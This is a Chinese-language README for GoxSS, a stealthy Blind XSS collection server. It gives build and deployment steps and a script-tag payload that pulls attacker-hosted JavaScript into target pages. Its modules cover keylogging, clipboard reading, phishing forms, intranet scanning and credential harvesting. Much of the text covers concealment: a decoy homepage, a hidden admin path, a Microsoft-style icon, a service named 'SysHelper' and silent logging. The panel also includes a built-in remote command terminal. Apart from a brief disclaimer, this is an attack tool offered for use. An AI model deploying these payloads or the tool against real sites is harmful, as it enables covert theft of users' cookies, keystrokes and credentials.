






# GoxSS · XSS 回显管理平台

单文件、全内置、静默运行的 Blind XSS 收集面板。一个 exe（或 Linux 二进制）丢到服务器就能跑，浏览器打开后台即可实时查看回传数据。

> ⚠️ **免责声明**：本项目仅用于**授权范围内的安全测试与学习研究**。请勿用于任何未授权目标，使用者对自身行为负责。

---

## 特性

- **单文件部署**：面板、登录页、hook.js、全部 JS 模块均内嵌进二进制，exe 旁边零文件
- **数据无痕存储**：SQLite（纯 Go 驱动，WAL 模式）自动存至用户数据目录下的随机 ID 子目录，路径不含任何项目特征
- **静默运行**：默认不输出任何日志；加 `-v` 才显示
- **极短 payload**：根路径短链形式 `<script src="https://host/s/短码"></script>`，4 位短码
- **随机后台路径**：后台挂在首次部署时随机生成、此后固定的路径下（如 `/wxhsNC/`），入口只有部署者知道
- **入口令牌**：访问入口路径（默认 `/h`，可用 `-entry` 自定义，如 `-entry mykey` → `/mykey`）签发 10 分钟有效的入口令牌，直接访问随机路径会被重定向回伪装页
- **伪装首页**：根路径 `/` 只显示一个纯静态笑脸，无任何平台痕迹
- **WebSocket 实时推送**：新回显即时弹出到面板，WS 不可用时自动降级轮询
- **模块化 JS**：每个 XSS 功能是独立 JS 实体（键盘记录 / 剪贴板 / 钓鱼表单 / 内网扫描 / XHR 钩子 / 表单抓取 / 凭据收集…），项目创建时多选勾选，按勾选顺序拼接下发
- **hook.js 锁定模块**：基础采集模块置顶内置，不可编辑不可删除，不含任何注释
- **管理终端**：面板内置终端页，登录后可直接执行服务器命令（60 秒超时，含历史记录），免远程连接
- **图标伪装**：Windows exe 内嵌微软四色方块图标
- **跨平台**：Windows / Linux 一键交叉编译

## 界面预览

### 伪装首页与登录

根路径 `/` 只显示一个笑脸，访问入口路径后才见登录页：




### 面板总览



### 回显记录



### 项目管理与 JS 模块





### 管理终端



## 快速开始

### 编译

```bash
# Windows
go build -o goxss.exe .

# Linux（交叉编译）
set CGO_ENABLED=0
set GOOS=linux
set GOARCH=amd64
go build -o goxss-linux-amd64 .
```

> Windows 构建会自动引用 `rsrc_windows_amd64.syso` 资源文件，将微软四色方块图标嵌入 exe（任务管理器 / 资源管理器 / NSSM 服务均显示该图标）。

### 运行

```bash
./goxss.exe                # 默认 8080 端口，完全静默
./goxss.exe -port 9090     # 指定端口
./goxss.exe -v             # 显示运行日志
./goxss.exe -db D:\x\k.db  # 显式指定数据库路径
```

首次启动会：

1. 在用户数据目录创建随机 ID 子目录及数据库（Windows: `%AppData%\<16位随机ID>\`，Linux: `~/.config/<16位随机ID>/`）
2. 创建默认管理账号 **admin / 123456**（请立即在面板中修改）
3. 生成随机后台路径并持久化（重启不变）

### 进入后台

```
http://IP:端口/h          → 签发入口令牌并跳转到随机路径登录页
```

登录后可修改密码（bcrypt 存储，修改后吊销全部会话）。

## 命令行参数

| 参数 | 说明 | 默认 |
|---|---|---|
| `-port` | 监听端口（1-65535） | `8080`，或 `PORT` 环境变量 |
| `-entry` | 自定义后台入口路径（如 `-entry mykey` → 通过 `/mykey` 进入后台），默认 `/h` | `/h` |
| `-mount` | 功能路径挂载前缀，仅反代共存时使用，如 `/gx` | 空（根路径模式） |
| `-db` | SQLite 数据库文件路径 | 用户数据目录随机 ID 子目录 |
| `-v` | 显示运行日志 | 静默 |

数据库路径解析顺序：`-db` 参数 > `DB_PATH` 环境变量 > 当前目录已有 `goxss.db`（兼容旧部署）> 用户数据目录。

## 注入 payload

默认（不带 `-mount`）所有功能路径都在根路径下，payload 最短：

```
http://你的服务器/s/<项目短码>
```

在目标 XSS 点插入：

```html
<script src="http://你的服务器/s/c8qM"></script>
```

面板可复制现成的 payload。回传通道：

- **img**：`GET /c?<参数>`，天然跨域、隐蔽
- **fetch**：`POST /c`（JSON），带 `Access-Control-Allow-Origin: *`

⚠️ **HTTPS 页面注入注意**：目标站是 https 时，`http://` 的脚本会被浏览器混合内容拦截。给服务器配 https（反代 + 证书或套 Cloudflare）后使用 `https://` 链接。

## 反向代理（与现有网站共存，可选）

只有当服务器 80 端口已有其他 Web 服务、需要按路径分流时，才用 `-mount` 把所有功能路径收拢到一个前缀下：

```bash
./goxss.exe -port 54361 -mount /gx
```

之后所有路径变为 `/gx/h`、`/gx/s/<短码>`、`/gx/c`、`/gx/<随机路径>/`，反代只需转发一条规则。

**Nginx**：

```nginx
location /gx/ws {
    proxy_pass http://127.0.0.1:54361/gx/ws;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection "upgrade";
    proxy_read_timeout 3600s;
}
location /gx/ {
    proxy_pass http://127.0.0.1:54361/gx/;
    proxy_set_header X-Forwarded-For $remote_addr;
}
```

**Apache**（需启用 `mod_proxy`、`mod_proxy_http`、`mod_proxy_wstunnel`，写在对应 VirtualHost 内）：

```apache
ProxyPass        /gx/ws ws://127.0.0.1:54361/gx/ws
ProxyPass        /gx/  http://127.0.0.1:54361/gx/
ProxyPassReverse /gx/  http://127.0.0.1:54361/gx/
```

**宝塔**：网站 → 反向代理 → 目标 `http://127.0.0.1:54361`，代理目录 `/gx/`。

不带 `-mount` 时根路径模式默认可用（`/h`、`/s/`、`/c`），独立端口直连或整域反代无需任何前缀。

## Windows 后台运行

**VBS（最简单，双击无窗口）**：

```vbs
Set ws = CreateObject("WScript.Shell")
ws.Run "goxss.exe -port 54361", 0, False
```

**NSSM 注册为系统服务**（开机自启 + 崩溃自动重启）：

```bat
nssm install SysHelper "C:\path\to\goxss.exe"
nssm set SysHelper AppParameters "-port 54361"
nssm start SysHelper
```

## 安全机制一览

| 机制 | 说明 |
|---|---|
| 随机后台路径 | 首次部署生成并持久化，直接访问随机路径跳回伪装页 |
| 入口令牌 | 入口路径（默认 `/h`，`-entry` 可自定义）签发，10 分钟有效、可复用；无令牌的请求一律 404 或重定向 |
| 会话认证 | Cookie + 24h 滑动过期；改密码即吊销全部会话 |
| bcrypt | 密码哈希存储 |
| 终端鉴权 | `/api/exec` 仅限已登录会话，60 秒超时，输出截断 |
| 静态资源 no-cache | 更新二进制后刷新即生效 |

## 内置 JS 模块

| 模块 | 功能 |
|---|---|
| `hook` | 基础采集（cookie / localStorage / URL / referrer / title），锁定不可删 |
| `keylog` | 键盘记录 |
| `clipboard` | 剪贴板读取 |
| `phish` | 钓鱼表单渲染与提交捕获 |
| `scan` | 内网地址探测 |
| `xhrhook` | XHR/fetch 请求钩子 |
| `formgrab` | 表单内容抓取 |
| `creds` | 凭据收集 |

在面板「JS 模块」页可自定义任意模块；项目创建/编辑时多选，payload 加载后按勾选顺序依次执行。

## 目录结构

```
goxss/
├── main.go              # 路由、回传、API、启动逻辑
├── db.go                # SQLite 层（迁移 / CRUD / 短码 / 内置数据）
├── auth.go              # 会话认证、入口令牌
├── hub.go               # WebSocket hub
├── staticAssets/
│   └── hook.js          # 注入 payload（内嵌，启动时刷新入库）
├── web/                 # 面板前端（内嵌）
│   ├── index.html
│   ├── login.html
│   ├── app.js
│   └── style.css
├── icon.ico             # 程序图标
├── rsrc_windows_amd64.syso  # Windows 资源（图标，go build 自动引用）
└── tools/wscheck/       # WebSocket 推送验证小工具
```

## 技术栈

- Go 1.26+
- `modernc.org/sqlite`（纯 Go SQLite 驱动，无 CGO）
- `gorilla/websocket`
- `golang.org/x/crypto`（bcrypt）

## License

仅供学习与授权测试使用。
